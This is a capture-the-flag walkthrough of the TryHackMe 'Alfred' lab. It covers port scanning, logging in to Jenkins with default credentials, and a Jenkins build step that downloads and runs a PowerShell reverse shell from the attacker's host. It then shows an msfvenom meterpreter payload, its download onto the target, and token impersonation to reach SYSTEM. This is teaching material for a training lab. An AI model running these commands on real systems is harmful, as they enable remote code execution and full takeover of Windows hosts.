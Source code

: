# Alfred

At first, we need to run the nmap to scan the running services on target server:

```bash
sudo nmap -sS 10.10.135.85
```

Above command gave the error: **Note: Host seems down. If it is really up, but blocking our ping probes, try -Pn.**  Let's modify the command:

```bash
sudo nmap -sS -Pn 10.10.135.85
```

It gave us the result:
```bash
80/tcp   open  http
3389/tcp open  ms-wbt-server
8080/tcp open  http-proxy
```

Now, went to http://10.10.135.85:8080/ that gave me a page that requires username and password for Jenkin authentication.

### **Task 1**

##### Question: How many ports are open? (TCP only)
Answer: We already know it's answer is: **3**.

##### Question: What is the username and password for the login panel? (in the format username:password)
Answer: I randomly tried to guess the credentials and guess what, I succeed. 

The credentials are: **admin:admin**.

Now, we need to find a way to run commands on the underlying system (target server). I made a google search that how to run our command on the system using jenkin. I found out that if I make a new project then it's possible. Simple steps to do that are following:

1. Select the new item from the dashboard as shown in the picture:

![Alt text](../Screenshots/Alfred/new_item.png)

2. Enter the name of project and select 1st option as following:

![Alt text](../Screenshots/Alfred/new_project.png)

3. Now, in the portion of buid select `Add build` and then from the drop down list select `execute windows batch command`. Now, write the following command in the command box(given  by tryhackme):

```
powershell iex (New-Object Net.WebClient).DownloadString('http://10.8.25.176:4444/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.8.25.176 -Port 4443
```

4. Click the save button at the last of the page. 

Before going to the 5th step, you must have two things configured at your attacking machine:
> Download powershell script and host it through python server
> start netcat server on listenting mode.

**Powershell Script**
Download the script using the following link(given by THM): 
[Reverse Shell](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1)

Run the python server in the same directory where the powershell script is downloaded using the command:
```bash
python -m http.server 4444
```

**Running netcat server**
Run the following command to run the netcat server:

```bash
nc -lvnp 4443
```

5. Now, go to the project `new_project` that we made on jenkin and on the left panel, click on `Build Now` as shown in the following:
![Alt text](../Screenshots/Alfred/build_now.png)

##### Hoorah! We got the initial access of shell of target server.


![Alt text](../Screenshots/Alfred/Initial_access.png)

Navigate to the directory `C:\users\bruce\Desktop` and run following command to 

### **Task 2**

**Setting Metasploit on listening mode**
Run the following commands in order to set the metasploit on listening mode to get the meterpreter shell, so that we can leverage the modules of windows authentication tokens.

```bash
use exploit/multi/handler 
```

```bash
set PAYLOAD windows/meterpreter/reverse_tcp 
```

```bash
set LHOST attacker_machine_ip set LPORT attacker_machine_port
```

```bash
run
```

Now, Metasploit is on listening mode. We need to make a reverse shell payload, transfer it to target machine. When this expoits run, it will make reverse a connection on your Metasploit.

Firstly create the payload using following command:

```bash
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=attacker_ip LPORT=attacker_port -f exe -o shell-name.exe
```

Now, run the python server where this payload is created:
```bash
python -m http.server 4444
```

Now, run the following command in the shell of target machine that you got during initial access task:
```bash
powershell "(New-Object System.Net.WebClient).Downloadfile('http://attacker_ip:python_server_port/shell-name.exe','shell-name.exe')"
```

Run the following command in target machine's shell to start the payload:
```cmd
Start-Process "shell-name.exe"
```
![Alt text](../Screenshots/Alfred/meterpreter.png)
##### Yeah! We got the meterpreter shell.

**Task 3**

Privelege Escalation is our current task. So we need to identify the priveleges that our current user have. Run the following command in our shell(initial shell, not meterpreter):

```cmd
whoami /priv
```

Note the Enabled privleges that includes the following:
**SeDebugPrivilege**
**SeChangeNotifyPrivilege**
**SeImpersonatePrivilege**
**SeCreateGlobalPrivilege**

Now, in order to use the Metasploit module for windows authentication tokens, we need to load a module:
```bash
load incognito
```

```bash
list_tokens -g
```

![Alt text](../Screenshots/Alfred/tokens.png)

Now, the most attactive token for attackers here is `BUILTIN\Administrators`. Understand what's happening. You are local user but you can impersonate tokens of another user, how do we know that: because we have the privelege **SeImpersonatePrivilege**. Run the following command to impersonate it:
```bash
impersonate_token "BUILTIN\Administrators"
```
##### Question: Use the impersonate_token "BUILTIN\Administrators" command to impersonate the Administrators' token. What is the output when you run the getuid command?

Answer: Run the getuid command in meterpreter and you will get the answer: **NT AUTHORITY\SYSTEM**.

Now, you are local user but have token of administrator. In other words, you can authenticate yourself as administrator. But currently your primary token is of local user. In order to do the tasks that require higher priveleges then we need to migrate the process that have higher permissions. And token for authentication we already have. 

Migrate to any process that is running with higher priveleges. Run `ps` command to list the processes. Note that service.exe is one of our required processes. Run the command in meterpreter shell:

```bash
migrate 668
```
In above command 668 is the PID of service.exe that we can find throug `ps` command we ran previously.

Now navigate to the directory `C:\Windows\System32\config` and read the `root.txt` file using following command:
```bash
cat root.txt
```
![Alt text](../Screenshots/Alfred/root_flag.png)